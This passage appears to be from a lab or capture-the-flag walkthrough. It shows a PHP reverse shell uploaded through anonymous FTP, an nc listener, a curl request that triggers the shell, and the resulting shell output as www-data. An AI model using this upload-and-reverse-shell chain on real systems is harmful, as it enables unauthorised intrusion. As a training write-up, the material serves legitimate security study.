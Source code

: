 ```
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```
* ## save this with any name use .php extention

 # Gaining Access
 
* ## let login FTP first.
```
death@esther:~$ ftp 10.10.231.18  
Connected to 10.10.231.18.
220 (vsFTPd 3.0.3)
Name (10.10.231.18:death): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
* ## Let upload this.
```
put shell.php ftp/shell.php
```
```
ftp> put shell.php ftp/shell.php
local: shell.php remote: ftp/shell.php
229 Entering Extended Passive Mode (|||39254|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|  3462       30.01 MiB/s    00:00 ETA
226 Transfer complete.put shell.php ftp/shell.php
3462 bytes sent in 00:00 (10.77 KiB/s)
ftp> 

```
* ## Open netcat in another terminal
```
nc -lnvp 1234
```
## Start The shell
```
curl http://10.10.231.18/files/ftp/shell.php
```
## Here we go !!!
```
death@esther:~$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.231.18 52636
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:38:56 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```